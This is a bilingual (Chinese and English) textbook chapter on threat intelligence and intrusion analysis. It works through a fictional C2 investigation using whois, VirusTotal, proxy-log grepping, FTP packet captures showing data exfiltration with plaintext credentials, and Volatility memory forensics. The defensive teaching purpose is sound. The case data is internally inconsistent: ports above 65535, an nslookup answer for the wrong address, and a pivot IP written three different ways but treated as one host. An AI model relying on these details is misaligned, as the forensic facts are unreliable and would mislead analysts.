## 10 威胁建模与分析 – 实际用例

从高层次来看，**网络威胁情报（CTI）** 分析的主要目标是 *找出威胁的来源（对手及其活动）* 并 *阻止它*（尽管达到这一点有多个流程和任务，如前几章所述）。**威胁情报（TI）** 分析师必须培养强大的建模和分析技能，使其成为第二天性，因为在建模和分析威胁时，时间和效率非常重要。因此，理想情况是尽可能 *自动化流程*。然而，利用手动流程至关重要，以确保 CTI 分析师在进行威胁分析时知道该怎么做。

本章重点介绍实用的威胁建模和分析示例，以说明如何进行入侵分析。本章的最终目标是为情报分析师配备实践知识，以便手动和自动分析威胁。

本章结束时，您应该能够做到以下几点：

- 理解并掌握如何使用真实场景进行威胁分析
- 使用 **SANS 调查取证工具包（SIFT）** **虚拟机（VM）** 和 **恶意软件信息共享平台（MISP）** 进行有效的 CTI 分析
- 理解 MISP 并利用该工具自动化 CTI 收集、分析和存储

本章将涵盖以下主要主题：

- 理解分析流程
- 入侵分析案例——如何进行
- 用于自动化威胁分析和存储的 MISP

### 技术要求

本章中的分析使用安装在 VirtualBox 上的 MISP TI 平台和 SIFT VM。这些工具的下载和安装可通过以下官方网站进行：

- `https://www.misp-project.org/download/`
- `https://www.sans.org/tools/sift-workstation/`

MISP 和 SIFT Workstation 可以成为 CTI 分析的良好组合，尤其适用于 1 级组织。然而，需要注意的是，有多种工具可用于 CTI 分析，既有开源也有商业。案例使用的目标是为分析 CTI 事宜提供逻辑流程。

### 理解分析流程

CTI 分析最重要的技能之一是 **枢轴分析**。枢轴分析允许分析师使用一个或多个已识别的指标作为锚点，并在各种数据源中搜索与这些指标相关的事件和流。简化的威胁分析流程如下图所示，我们在整章中使用它来标准化我们的任务：



Figure 10.1 – 威胁分析流程

最终目标是通过逐步识别 Diamond 模型的元素来完成 Cyber Kill Chain 阶段。分析过程的每个任务旨在识别有助于我们实现目标的工件。

对于任何威胁场景，必须采取以下步骤：

- 1. **识别指标**：指标可以是 **互联网协议 (IP)** 地址、域名、哈希值、**统一资源定位符 (URL)**，甚至是银行账号、姓名和电子邮件地址等，以及包含主题、内容、服务器信息等的元数据。在威胁或入侵场景中，您必须识别一个初始指标作为起点。您要回答的问题是：*我应该从哪个指标开始？*
- 2. **情境化并验证指标**：此任务要求分析人员提取所选指标的含义、有用性和范围。目标是定义所选指标的相关性。*该指标为什么重要？其来源是否可靠？*
- 3. **通过数据源进行枢轴分析**：在内部和/或外部数据中搜索指标以确定其是否存在。驱动问题是：*该指标是否存在于我的系统中？*
- 4. **识别其他指标**：枢轴分析通常会产生与初始指标关联的更多指标。枢轴分析后提取其他有用的指标——例如，IP地址可以揭示完整的 URL 链接。然后您可以使用新发现的指标再次执行 *步骤 2 和 3*。

威胁分析是一个循环过程——因此，作为分析人员，您必须对收集到的每个指标重复该过程。经常会问的问题是：*我们何时停止通过指标进行枢轴分析？* 现实但直接的答案是：*当作为威胁分析人员，您已有足够证据得出关于特定威胁的结论并且无法再进行枢轴分析时。* 在下一节中，我们以实用方法介绍入侵分析步骤。

## 入侵分析案例 – 如何进行

在本节中，我们从 CTI 角度审视入侵分析。这将有助于将流程付诸实践。

**目标：** 该用例的目的是说明如何处理入侵分析案例。该用例还有助于展示 CTI 流程中信息丰富化的方式。它还演示了如何在 CTI 流程中验证第三方情报。

**场景：** 作为 *ABC* 公司 TI 分析师，您收到政府执法机构的电子邮件，关于贵组织与可能的 **命令与控制 (C2)** 通道 IP 地址 125.19.103.198 之间存在潜在恶意通信。您被要求调查和分析潜在威胁。

**分析：** 主要问题是：*提供的 C2 IP 地址是否具有恶意性（第三方信任）？外部数据源的相关性对 C2 IP 说明了什么？网络中谁与提供的 IP 通信？*

### 指标收集与情境化

在第一个流程中，我们分析已提供的指标并对其进行情境化。我们使用以下任务来收集和情境化指标。

### 识别初始指标

在本例中，初始指标由执法机构提供，即 125.19.103.198 IP 地址。与报告组织联系以获取更多信息并回答您可能有的任何问题至关重要。

### 获取上下文并验证指标

我们提供了一个似乎与系统通信的外部 IP 地址。这是一种有限的情报。然而，我们已经可以想到一个 C2 服务器。验证和情境化将得到 Cyber Kill Chain 的 *发现* **行动方案** (**COA**) 支持。如果 IP 活动与 C2 行为相关联，我们将继续分析并识别完整的入侵足迹。因此，我们尚未验证该指标。

### 通过可用来源进行枢轴分析

我们使用以下流程通过外部和内部数据源进行枢轴分析。

### 通过外部数据源进行枢轴分析

我们通过开源外部数据源进行枢轴分析，以提取与 IP 地址相关的任何情报。以下步骤使我们能够通过公共来源对指标进行画像。我们旨在了解所选指标是否存在任何情报或警报/报告：

- 1. 执行 whois 查询以识别域名信息。您可以使用网络或命令行查询信息。我们已使用 whois 125.19.103.198 命令。注册信息是一个组织，并且 IP 地址附带电子邮件地址。IP 注册在印度。
- 2. 使用 VirusTotal (https://www.virustotal.com/gui/) 检查 IP 是否被标记。您可以在以下屏幕截图中看到 VirusTotal 的输出：



Figure 10.2 – C2 IP 地址的 VirusTotal 输出

三个安全杀毒软件将该 IP 标记为恶意——一个标记为可疑，如图 10.2 所示。

VirusTotal 还在 Details 和 Relations 下提供域名系统 (DNS) 和被动 DNS 信息。IP地址还与多个恶意文件（恶意软件文件）相关联。这表明如果 C2 IP 与组织之间曾经有过通信，我们很可能已被入侵。

使用 VirusTotal 图表通过开源情报 (OSINT) 数据进行更多枢轴分析并分析不同外部指标之间的关系。

此时，我们已经知道报告的 C2 服务器与恶意活动相关。下一步是收集与系统通信的证据。我们可以通过分析内部流量来调查攻击。

### 通过内部数据源进行枢轴分析

在通过公共来源对指标进行画像后，我们在内部进行枢轴分析以在系统中识别它。我们采取的步骤如下：

- 1. 访问网络日志和流以检查内部主机与提供的 C2 服务器之间的通信。**安全信息和事件管理 (SIEM)** 工具或 TI 平台由于其收集、聚合和关联内部流量的强大能力，非常适合此练习。然而，我们可以利用 **Wireshark** 或任何数据包分析器手动执行此类活动，过滤 IP 地址或域名。请考虑以下屏幕截图中显示的日志输出：

| 时间戳 | 协议 | 源IP | 源端口 | 目标IP | 目标端口 | 总字节数 | 连接状态 |
|---|---|---|---|---|---|---|---|
| 2019-03-02 00:00:00 | tcp | 172.16.99.12 | 23786 | 125.19.103.198 | 655234 | 13,234,212.23 | FIN |
| 2019-03-02 00:15:00 | tcp | 172.16.99.12 | 46786 | 125.19.103.198 | 666234 | 65,145,022 | FIN |
| 2019-03-02 01:00:00 | tcp | 172.16.99.12 | 6786 | 125.19.103.198 | 655234 | 13,234,212.23 | FIN |
| ... | ... | ... | ... | ... | ... | ... | ... |
| [...] | [...] | [...] | [...] | [...] | [...] | [...] | [...] |

Figure 10.3 – 网络日志示例

对于 Linux 系统中的日志文件，命令 `cat <logfile name> | grep <IP address or domain>` 会显示文件内容，或您可以在 Windows 系统中运行 `type <logfile name> | findstr "<IP address>"`。

- 2. 使用 *nslookup* 工具揭示与 C2 服务器通信的主机的身份。前述系统日志显示一个 IP（172.16.99.12）与 C2 IP（125.19.103.198）通信。请考虑以下输出：

```
misp@misp:~$ nslookup 172.16.99.12
Server:             192.168.8.1
Address:            192.168.8.1#53

10.0.1.216.in-addr.arpa    name = abc-webproxy-dmz.net
```

Figure 10.4 – nslookup 输出

涉及恶意通信的 IP 地址是组织的 Web 代理服务器。步骤 1 和 2 需要强调的是，Web 代理服务器可能已被入侵或用作混淆器，并且 C2 具有超文本传输协议 (HTTP) 的性质。

> **重要提示**
> 如果外部情报可以确认 IP 或域名身份，发现 C2 通道（服务器）可能很容易。然而，如果您找不到外部情报来支持第三方报告或电子邮件，则必须查看心跳流特征。两个最重要的参数是时间戳模式（通信在哪个时间间隔启动）以及通信一致性，例如大小和带宽。因此，CTI 分析师需要了解系统中恶意软件的基本行为。

如果代理服务器涉及，如前所示，我们应分析代理日志，如以下步骤所述：

- 1. 访问代理服务器日志以检查系统（客户端或主机）是否已向 C2 服务器发出请求。在格式良好的代理日志中，Linux 终端命令 `cat <logfile name> | grep <IP address or domain>` 会提供包含 C2 服务器或域名的日志交易。

假设您已使用 cat 命令查询了代理服务器日志。
请考虑以下图中显示的查询结果：

```
192.168.8.4, Stefan,-, Y, 2/3/19, 0:00:00, abc-webproxy-dmz.net, abc-webproxy-dmz.net, -, 125.19.103.198, -, 21, 300, -, -, ftp, TCP, -, ftp://admin.test@125.19.103.198:21/sys/files/?query=.../ , DOC/RAR, VCache, 200, -
192.168.8.14, Victor,-, Y, 2/3/19, 0:00:00, abc-webproxy-dmz.net, abc-webproxy-dmz.net, -, 125.19.103.198, -, 21, 300, -, -, ftp, TCP, -, ftp://admin.test@125.19.103.198:21/sys/files/?query=.../ , DOC/RAR, VCache, 200, -
192.168.8.23, Priyanka,-, Y, 2/3/19, 0:00:00, abc-webproxy-dmz.net, abc-webproxy-dmz.net, -, 125.19.103.198, -, 21, 300, -, -, ftp, TCP, -, ftp://admin.test@125.19.103.198:21/sys/files/?query=.../ , DOC/RAR, VCache, 200, -
192.168.8.4, Stefan,-, Y, 2/3/19, 0:15:00, abc-webproxy-dmz.net, abc-webproxy-dmz.net, -, 125.19.103.198, -, 21, 300, -, -, ftp, TCP, -, ftp://admin.test@125.19.103.198:21/sys/files/?query=.../ , DOC/RAR, VCache, 200, -
192.168.8.14, Victor,-, Y, 2/3/19, 0:15:00, abc-webproxy-dmz.net, abc-webproxy-dmz.net, -, 125.19.103.198, -, 21, 300, -, -, ftp, TCP, -, ftp://admin.test@125.19.103.198:21/sys/files/?query=.../ , DOC/RAR, VCache, 200, -
192.168.8.23, Priyanka,-, Y, 2/3/19, 0:15:00, abc-webproxy-dmz.net, abc-webproxy-dmz.net, -, 125.19.103.198, -, 21, 300, -, -, ftp, TCP, -, ftp://admin.test@125.19.103.198:21/sys/files/?query=.../ , DOC/RAR, VCache, 200, -
```

Figure 10.5 – 代理日志示例


We identify the compromised hosts' IP and names, as highlighted in the preceding screenshot (192.168.8.4, 192.168.8.14, and 192.168.8.23). These hosts have communicated with the C2 server (125.19.103.198). We also see a File Transfer Protocol (FTP) URL used during communication (ftp://admin.test@125.19.103.198:21/sys/files/?query=.../), with the object's Multipurpose Internet Mail Extension (MIME) set to DOC/RAR files (possible file exchange using FTP).

- 2. Compare the results of the different internal analyses. Ensure that Step 3 matches and confirms the findings in Step 1. For example, we see that timestamp patterns in Step 1 match the proxy server logs in Step 3. In that case, this is a good indication of a potential compromise and validation of the third-party report. We need to involve the incident response (IR) and forensics teams. However, there is still analysis we need for more evidence. A comparison between Step 1 and Step 3 is shown in the following screenshot:



Figure 10.6 – Matching the network and proxy logs' timestamps

Adversaries often leverage the most common layer 5 protocols to bypass security measures (proxies, firewall, and intrusion detection system (IDS) rules) and establish stealth communication with the compromised system, and in most security configurations, the three protocols that are given the most freedom to communicate with the outside world include HTTP (web traffic), DNS (address resolution), and Simple Mail Transfer Protocol (SMTP) (mail services). However, adversaries also use protocols such as Secure Shell (SSH), Remote Desktop Protocol (RDP), tunneling, —therefore, as a CTI analyst, you should be familiar with each of them. Refer to the Adversarial Tactics, Techniques, and Common Knowledge (ATT&CK) Command and Control tactic (https://attack.mitre.org/tactics/TA0011/) to familiarize yourself with commonly used C2 techniques.

## Classifying the intelligence according to CTI frameworks

After pivoting through the external and internal data to confirm and evaluate the security issue, we need to situate the intrusion in a framework. We can use the Diamond model, the Cyber Kill Chain, or the MITRE ATT&CK framework for such a task, or we can use all of them. The main goal is to understand where you are in the analysis, identify the gap, and set the next step. Proceed as follows:

- 1. Classify intelligence with the Diamond model. We have found and confirmed the C2 server, which is the infrastructure used by the adversary. We have also identified victims in the system. Now, the gap involves the tactics, techniques, and procedures (TTPs) and the adversary, as shown in the following screenshot:



Figure 10.7 – Initial Diamond model for our intrusion

- 2. Classify intelligence using the kill chain. We have *discovered* the C2 information. There is not much information to fill in the kill chain, but we have one crucial component. We can start building a COA matrix, as shown in the following screenshot:

| Course of Action | Discovery | Detect | Deny | Disrupt | Degrade | Deceive | Destroy |
|---|---|---|---|---|---|---|---|
| Kill chain phases |  |  |  |  |  |  |  |
| Reconnaissance |  |  |  |  |  |  |  |
| Weaponization |  |  |  |  |  |  |  |
| Delivery |  |  |  |  |  |  |  |
| Exploit |  |  |  |  |  |  |  |
| Install |  |  |  |  |  |  |  |
| Command & Control (C2) | 125.19.103.198 |  |  |  |  |  |  |
| Actions |  |  |  |  |  |  |  |

Figure 10.8 - Initial Cyber Kill Chain: discovery COA

We need to dig further to fill in the chain.

- 3. Analyze the URLs and pivot more on common indicators. By analyzing the proxy logs content, we find another URL used for communication. While the URL arguments differ, the directory path is the same: /sys/files/. We pivot through the proxy logs, searching for /sys/files/ patterns in all web transactions, not in the 125.19.103.198 communication. A typical Linux command would be `cat log.txt | grep -F "/sys/files/" | grep -vF '125.19.103.198'`. Consider the following logs output:

```
192.168.8.15, Yan, -, Y, 2/3/19, 0:00:00, abc-webproxy-dmz.net, abc-webproxy-dmz.net, -, 46.168.5.140, -, 80, 300, -, -, http, TCP, GET,
http://46.168.5.140/sys/files/dom?par=Qs56ytMkdr uog/, FILE/EXE, VCache, 200, -
192.168.8.15, Yan, -, Y, 2/3/19, 1:00:00, abc-webproxy-dmz.net, abc-webproxy-dmz.net, -, 46.168.5.140, -, 80, 300, -, -, http, TCP, GET,
http://46.168.5.140/sys/files/dom?par=Qs56ytMkdr uog/, FILE/EXE, VCache, 200, -
192.168.8.15, Yan, -, Y, 2/3/19, 2:00:00, abc-webproxy-dmz.net, abc-webproxy-dmz.net, -, 46.168.5.140, -, 80, 300, -, -, http, TCP, GET,
http://46.168.5.140/sys/files/dom?par=Qs56ytMkdr uog/, FILE/EXE, VCache, 200, -
```

Figure 10.9 – Additional indicator after pivoting

Another activity with the same indicator reveals another infrastructure (46.168.5.140), a new victim, and an executable MIME file (FILE/EXE)—a potential malware. A GET HTTP method shows a sign of action over the C2 channel, which belongs to the last phase of the Cyber Kill Chain.

- 4. Update the Diamond model and Cyber Kill Chain frameworks with the newly found indicators. We update the C2 discovery in the kill chain by adding the new IP address and TTPs. Three Diamond model's vertices have been identified (victim, infrastructure, and capability). We need more analysis and intelligence to fill in the remaining vertex.

The analysis performed so far has helped identify some stages of the CTI frameworks we have used. However, the kill chain is still almost empty, and the COA matrix has not been completed yet. It is essential to fill the kill chain to identify gaps in intelligence and prioritize actions. Since we have identified the presence of the C2 server in the system, we need to assess if there has been an actual breach (action).

## Pivoting into network actions

The objective is to find indicators for stage 7 of the kill chain to understand the extent of the threat. What we do is perform timely analysis. As described in the following steps, we pivot through the network and the host (involving a bit of host-based forensics):

- 1. Perform victim infrastructure pivoting and check for any FTP/HTTP/SMTP activity in the outbound direction. In FTP, we check Transmission Control Protocol (TCP) ports 20 (mainly used for data transfer) and 21 (used primarily for connection establishment) in the monitoring logs. Consider the following output:

```
Timestamp          SrcIpAddr    DestIpAddr      SPort DPort TotPackets TotBytes    State
2019-03-05 00:10:00 192.168.8.4   125.19.103.198  53678 21    1025448    1048432448  FIN
2019-03-06 00:10:00 192.168.8.14  125.19.103.198  53678 21    1025448    1048432448  FIN
2019-03-06 02:10:00 192.168.8.23  125.19.103.198  53678 21    1025448    1048432448  FIN
2019-03-07 00:10:00 192.168.8.15  125.19.103.198  43567 21    2064148    2548432448  FIN
```

Figure 10.10 – Host pivoting activity log

The preceding screenshot shows over 1 gigabyte (GB) of data sent to a remote server at 125.19.103.198 from three IP addresses and over 2.5 GB sent from the last IP host.

**Important Note**
An external data transfer of a significant magnitude (in the order of GB) should be flagged by efficient network monitoring tools. However, such transfer could appear standard for organizations where clients download large files, such as gaming software companies. For example, customers download games of over 15 GB once-off on **EA Sports** servers worldwide. An *obfuscated* data transfer of 5 GB *can* escape security.

- 2. If packet capture is done through passive or active monitoring, access the raw **protocol data units (PDUs)** to analyze protocol information. Wireshark is one of the best tools for such a task. Note that if *Secure FTP (SFTP) is used instead of plain FTP, it can become complicated to view the transfer content.* Consider the simple raw data message shown in the following screenshot:

```
number time source destination prot. length info
224 17.191830 192.168.8.4 125.19.103.198 TCP 54 49205 → 21 [ACK] Seq=1 Ack=1 Win=64240 Len=0
225 17.220062 125.19.103.198 192.168.8.4 FTP 323 Response: 220 ----- Access Prohibited -----
226 17.220284 192.168.8.4 125.19.103.198 TCP 54 49205 → 21 [ACK] Seq=1 Ack=270 Win=63971 Len=0
227 17.222377 192.168.8.4 125.19.103.198 FTP 75 Request: USER admin@test.com
228 17.222473 125.19.103.198 192.168.8.4 TCP 54 21 → 49205 [ACK] Seq=270 Ack=22 Win=64240 Len=0
229 17.282471 125.19.103.198 192.168.8.4 FTP 101 Response: 331 User admin@test.com OK. Password required
230 17.282825 192.168.8.4 125.19.103.198 TCP 54 49205 → 21 [ACK] Seq=22 Ack=317 Win=63924 Len=0
231 17.282954 192.168.8.4 125.19.103.198 FTP 73 Request: PASS l_pAgfd45
232 17.283024 125.19.103.198 192.168.8.4 TCP 54 21 → 49205 [ACK] Seq=317 Ack=41 Win=64240 Len=0
233 17.389993 125.19.103.198 192.168.8.4 FTP 148 Response: 230-OK. directory is /
242 17.537566 192.168.8.4 125.19.103.198 TCP 54 49205 → 21 [ACK] Seq=55 Ack=493 Win=63748 Len=0
246 17.573932 192.168.8.4 125.19.103.198 FTP 66 Request: SIZE file1.exe
247 17.574003 125.19.103.198 192.168.8.4 TCP 54 21 → 49205 [ACK] Seq=493 Ack=67 Win=64240 Len=0
248 17.656062 125.19.103.198 192.168.8.4 FTP 66 Response: 213 672768
249 17.658847 192.168.8.4 125.19.103.198 TCP 54 49205 → 21 [ACK] Seq=67 Ack=585 Win=63736 Len=0
250 17.651047 192.168.8.4 125.19.103.198 FTP 66 Request: RETR file1.exe
251 17.651133 125.19.103.198 192.168.8.4 TCP 54 21 → 49205 [ACK] Seq=585 Ack=79 Win=64240 Len=0
252 17.685950 125.19.103.198 192.168.8.4 FTP 114 Response: 150 Accepted data connection
253 17.688199 192.168.8.4 125.19.103.198 TCP 54 49205 → 21 [ACK] Seq=79 Ack=565 Win=63676 Len=0
665 18.926841 125.19.103.198 192.168.8.4 FTP 148 Response: 226 File successfully transferred
1116 18.926847 192.168.8.4 125.19.103.198 TCP 66 Request: SIZE file2.exe
1046 18.970809 125.19.103.198 192.168.8.4 FTP 114 Response: 150 Accepted data connection
2532 19.626550 125.19.103.198 192.168.8.4 FTP 118 Response: 226 File successfully transferred
3866 50.019207 192.168.8.4 125.19.103.198 FTP 81 Request: STOR collected_data.rar
2894 73.093851 125.19.103.198 192.168.8.4 TCP 54 21 → 49205 [ACK] Seq=2225 Ack=354 Win=64240 Len=0
2805 74.027983 125.19.103.198 192.168.8.4 FTP 84 Response: 150 Accepted data connection
2896 74.028864 192.168.8.4 125.19.103.198 TCP 54 49205 → 21 [ACK] Seq=354 Ack=3225 Win=63469 Len=0
2905 74.072372 125.19.103.198 192.168.8.4 FTP 200 Response: 226-2307 kbytes used (1%) - authorized: 2204860 Kb
...
```

Figure 10.11 – Raw packet illustration

The preceding screenshot shows requests to download an executable file (Response: RETR) and transmit data (STOR instruction). The filename is (collected_data.rar). This communication involves a malicious IP address. The screenshot also shows the basic FTP authentication method (username and password). At this point, we know some level of the threat impact, the methodology used, and additional infrastructure. Using a tool such as Wireshark, we can extract the transmitted objects from the raw packets.


3. 评估知识差距以完成 Cyber Kill Chain 和 Diamond 框架。用于数据外泄的方法包括通过初始 IP 地址的 FTP 和在第二基础设施下的 HTTP，如以下屏幕截图所示：



图 10.12 – 杀伤链行动阶段的更新 Diamond 模型

前述屏幕截图中显示了 Diamond 模型，更新后的杀伤链将在稍后完成。文件大小可用于估算入侵的影响（外泄了多少数据？外泄了哪些数据？）。

我们已展示如何通过主机 pivot 以发现不同的 COAs。然而，像“恶意软件是如何访问系统中的数据？”或“外泄了哪些特定数据？”等重要问题也需要得到解答。

## 内存和磁盘分析

在此任务中，我们通过主机 pivot 以提取有关入侵的信息。

内存和磁盘分析是取证流程，其中分析设备的内存（随机存取存储器，即 RAM）和存储以提取证据来解决网络犯罪。这些任务通常由取证团队执行。然而，CTI 分析师需要了解取证流程的基础知识。

## 深入主机操作

此操作所需的一些操作包括逆向工程恶意软件、分析 C2 通道行为以及在公开或外部情报上进行 pivot。深入网络对于了解入侵是如何实现的至关重要。

我们执行内存和磁盘取证以查找导致入侵的进程和文件。假设您已获取入侵分析中涉及的所有主机的内存转储。以下步骤描述了一些您可以执行的操作：

- 1. 识别其中一台受损主机中运行的进程，使用 `vol.py -f <memory dump> --profile=<system profile> pslist`、`vol.py -f <memory dump> --profile=<system profile> pstree` 和 `vol.py -f <memory dump> --profile=<system profile> psxview` 命令。第一个命令列出进程，第二个命令显示进程树，第三个命令列出隐藏的进程。进程树的输出结果在以下屏幕截图中显示：

```
$ vol.py -f memorydump.vmem --profile=WinXPSP2x86 pstree
Volatility Foundation Volatility Framework 2.6.1
Name                           PID   PPID  Thds  Hnds  Time
--------------------------------------------------------------------
0x823c89c8:System               4     0     53    240   1970-01-01 00:00:00 UTC+0000
. 0x822f1020:smss.exe           368   4     3     19    2019-02-03 00:42:31 UTC+0000
... 0x82298700:winlogon.exe      608   368   23    519   2019-02-03 00:42:32 UTC+0000
... 0x81e2ab28:services.exe      652   608   16    243   2019-02-03 00:42:32 UTC+0000
.... 0x821dfda0:svchost.exe     1056  652   5     60    2019-02-03 00:42:33 UTC+0000
.... 0x81e17b78:spoolsv.exe     1512  652   14    113   2019-02-03 00:42:36 UTC+0000
.... 0x81e29ab8:svchost.exe      908   652   9     226   2019-02-03 00:42:33 UTC+0000
.... 0x82300d10:svchost.exe     1004  652   64    1118  2019-02-03 00:42:33 UTC+0000
..... 0x8205bda0:wuauclt.exe    1588  1004  5     132   2019-02-03 00:44:01 UTC+0000
..... 0x821fcda0:wuauclt.exe   1136  1004  8     173   2019-02-03 00:43:46 UTC+0000
.... 0x82311360:svchost.exe      824   652   20    194   2019-02-03 00:42:33 UTC+0000
.... 0x820e8da0:alg.exe          788   652   7     104   2019-02-03 00:43:01 UTC+0000
.... 0x82295650:svchost.exe     1220  652   15    197   2019-02-03 00:42:35 UTC+0000
... 0x81e2a3b8:Lsass.exe        664   608   24    330   2019-02-03 00:42:32 UTC+0000
.. 0x822a0598:crsrss.exe        584   368   9     326   2019-02-03 00:42:32 UTC+0000
0x821dea70:explorer.exe        1484  1464  17    415   2019-02-03 00:42:36 UTC+0000
. 0x81e7bda0:reader_sl.exe      1640  1484  5     39    2019-02-03 00:42:36 UTC+0000
```

图 10.13 – 内存进程树说明

前述屏幕截图显示系统中最晚运行的进程中，在 explorer.exe 下有一个可疑进程（reader_sl.exe）。运行 psxview 后没有隐藏的进程。

> **重要提示**
> 用于说明的内存转储基于 Cridex 恶意软件内存转储，可从以下链接下载用于实践练习：
> https://github.com/volatilityfoundation/volatility/wiki/memory-samples

虽然此任务可以分配给取证团队，但资源有限的一级和二级组织可能依赖 CTI 分析师执行一级取证任务。因此，需要熟悉一些 *SANS SIFT 工具*。有关使用 SIFT Workstation 执行内存分析的更多信息，请参阅 SIFT 文档（https://www.sans.org/tools/sift-workstation/, https://bit.ly/3n2TOsm, https://bit.ly/3F2yeuq）。

- 2. 使用 connscan（Windows Vista 及更高版本映像使用 netscan）和 socket 选项检查打开的连接和活动套接字。以下屏幕截图中显示了一个示例：



图 10.14 – 内存进程分析：连接扫描

前述屏幕截图显示与进程标识符（PID）1484 相关的 TCP 连接，直接链接到 explorer.exe 和 reader_sl.exe（参见图 10.13）。一个 TCP 连接（PID 1038）正在与 46.101.245.8 的 8080 端口主动通信——这是之前步骤中识别的基础设施 IP。

- 3. 使用该工具的 cmdline 选项来识别进程的完整路径。输出应如下所示：

```
$ vol.py -f memorydump.vmem --profile=WinXPSP2x86 cmdline
Volatility Foundation Volatility Framework 2.6.1
[...]
**************************************************
explorer.exe pid: 1484
Command line : C:\WINDOWS\Explorer.EXE
**************************************************
spoolsv.exe pid: 1512
Command line : C:\WINDOWS\system32\spoolsv.exe
**************************************************
reader_sl.exe pid: 1640
Command line : "C:\Program Files\Adobe\Reader 9.0\Reader\Reader_sl.exe"
**************************************************
```

图 10.15 – 内存进程分析：获取文件路径

前述屏幕截图提供了由 explorer 进程执行的 reader_sl.exe 文件的完整路径。PID 1640 的路径显示与 Adobe 相关的活动。

- 4. 通过使用 procdump -p <PID> -- <dir> 和 memdump -p <PID> -- <dir> 探索并提取可疑文件。以下屏幕截图对此进行了说明：

```
$ vol.py -f memorydump.vmem --profile=WinXPSP2x86 procdump -p 1640
--dump-dir /home/jovan/Downloads/forensics_files/
Volatility Foundation Volatility Framework 2.6.1
Process(V) ImageBase Name Result
---------- ---------- -------------------- ------
0x81e7bda0 0x00400000 reader_sl.exe OK: executable.1640.exe

$ vol.py -f memorydump.vmem --profile=WinXPSP2x86 memdump -p 1640
--dump-dir /home/jovan/Downloads/forensics_files/
Volatility Foundation Volatility Framework 2.6.1
**************************************************
Writing reader_sl.exe [ 1640] to 1640.dmp

$ ls -l /home/jovan/Downloads/forensics_files/
total 75428
-rw-rw-r-- 1 jovan jovan 77205504 Aug 6 12:00 1640.dmp
-rw-rw-r-- 1 jovan jovan 29184 Aug 6 11:58 executable.1640.exe
```

图 10.16 – 内存分析：提取恶意文件

前述屏幕截图显示在指定存储库中转储了两个文件——一个可执行文件和内存。这些文件应发送给恶意软件逆向工程团队以进行文件的深入分析。在下一步中，我们确认该文件可疑。

- 5. 使用 grep 命令通过任何 Linux 文件搜索在 1640.dmp 中搜索 C2 IP 地址。以下屏幕截图中显示了一个示例：

```
$ strings /home/jovan/Downloads/forensics_files/1640.dmp | grep -Fi "41.168.5.140" -C4
DpI8
POST /zb/v_01_a/in/ HTTP/1.1
Accept: */*
User-Agent: Mozilla/5.0 (Windows; U; MSIE 7.0; Windows NT 6.0; en-US)
Host: 41.168.5.140:8080
Content-Length: 229
Connection: Keep-Alive
Cache-Control: no-cache
>mtvR
```

图 10.17 – 在转储文件中搜索 IP

前述屏幕截图确认 reader_sl.exe 文件正在使用 HTTP 协议与 C2 服务器通信。因此，它是恶意的。

